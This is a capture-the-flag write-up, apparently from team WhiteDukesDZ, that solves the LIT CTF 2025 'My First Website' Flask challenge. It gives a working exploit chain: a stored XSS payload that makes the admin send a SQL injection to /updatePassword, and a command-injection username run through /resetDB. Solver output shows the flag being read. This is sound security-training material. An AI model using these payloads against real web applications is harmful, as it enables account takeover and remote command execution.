


# WhiteDukesDZ - LIT CTF 2025 Writeup: My First Website Challenge



We were also provided with the `app.py`, `schema.sql`, `init_db.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a contact panel where users can report issues in comments. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `app.py` (Flask web app)
- `schema.sql` (The schema of SQL tables used by the web application)
- `init_db.py` (The python script that initialize the database with the tables provided in schema)

## Application Analysis

After reviewing `app.py`, we identified eight main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/login`.
    - Otherwise, renders the main page with user own `comments`.

2. **`/login`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have two inputs `name` and `password`.
    - On `POST`, verifies the existence of the `username` and `password` in database:
      - If the credentials are correct, redirects to `/`.
      - If the credentials are incorrect, redirects to `/login` and display `Invalid credentials` message.

3. **`/signup`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have four inputs `name`, `email`, `password` and `confirm`.
    - On `POST`, verifies:
      - If `password` != `confirm`, redirects to `/signup` and display `passwords do not match` message.
      - If `username` already exists in database, redirects to `/signup` and display `user already exists` message.
    Otherwise, <ins>inserts the new user into the database without any further sanitizations</ins>, and redirects to `/login`

4. **`/contact`:**
    - Accepts only `POST` requests with `comment` in request body.
      - If `username` is not set in session, redirects to `/login`.
    Otherwise, <ins>inserts the new `comment` into the database without any further sanitizations</ins>, and shows the submission message.


5. **`/admin`:**
    - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, shows the admin page with <ins>all comments</ins> displayed. 

6. **`/updatePassword`:**
    - Accepts only `POST` requests with `newPassword` in request body.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, update the currently connected user password to `newPassword` without any further sanitizations.

7. **`/resetDB`:**
    - Accepts only `POST` requests.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, runs a shell command with current `username` that will reset the database and set the current user to admin.
      - If command fails, shows `DB RESET FAILED` message.
      - If command succeed shows `Success` message.

8. **`/logout`:**
    - Log out the currently connected user and redirects to `/`.

### Security Observations

- The `/contact` endpoint does not filter for XSS payloads in the `comment` field. For example, setting `comment` to `<script>alert('WhiteDukesDZ')</script>` will execute the JavaScript payload:

  

In the challenge description it is mentioned that <ins>the admin frequently checks the website.</ins> And because the `/admin` ednpoint shows all comments, we definetly can exploit this XSS vulnerability to make the admin perform malicious actions.

- The `/updatePassword` endpoint use a vulnerable SQL query to update password.

```python
cur.execute(f"UPDATE users SET password = '{newPassword}' WHERE username = '{session.get('username')}'")
```

This query is vulnerable to SQL injection.

- The `/resetDB` endpoint runs a shell command with user controlled input `username`. Meaning this endpoint is vulnerable to command injection.

```python
result = subprocess.run(f"python init_db.py {session.get('username')}", shell=True)
```

- There is no CSRF protection in `/updatePassword`, nor `/resetDB`. Meaning we can use that XSS vulnerability from `/contact` in order to make the admin exploit that SQL injection in `/updatePassword` and the command injection in `/resetDB`.
---

## Solution

Based on our Application Analysis and Security Observations, we can execute commands using this strategy:

- Create a new account with a malicious `username` that will contain the command we want to execute `username=; echo $(ls -al) > static/output.txt ;#`. If this `username` is used in the shell command that will run when accessing `/resetDB` it will result in this command being executed:

```python
result = subprocess.run(f"python init_db.py ; echo $(ls -al) > static/output.txt ;#", shell=True)
```

- Log In with our newly created user.

- Insert a malicious `comment` containing our XSS payload. We want a XSS payload that will result in admin exploiting the SQL Injection in `/updatePassword` to update our newly created user to `admin=1` in database. We can achieve that by making admin POST to `/updatePassword` with `newPassword=dummy', admin=1 WHERE admin=0--` this will result in this SQL query being executed:

```python
cur.execute(f"UPDATE users SET password = 'dummy', admin=1 WHERE admin=0--' WHERE username = '{session.get('username')}'")
```

So our final XSS payload will be:

```html
<script>
fetch("/updatePassword", {
  method: "POST",
  headers: {"Content-Type": "application/x-www-form-urlencoded"},
  body: "newPassword=dummy', admin=1 WHERE admin=0--"
});
</script>
```

- After the admin visits `/admin` the XSS payload gets executed, We access `/resetDB` with our newly created user (Since our newly created user will be admin).

- Verifies `/static/output.txt`, to see the output of our executed command.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py <command_here>
```

If successful, the script will output the result of command execution:

```sh
┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "ls -a"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
. .. __pycache__ admin_bot.py admin_bot2.py app.py database.db entrypoint.sh error.log flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt flask_session info.log init_db.py requirements.txt run.sh run_old.sh schema.sql static templates

┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "cat flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
LITCTF{us3rn4m3_1nj3c710n_7f62be7ddc0d597f}
```


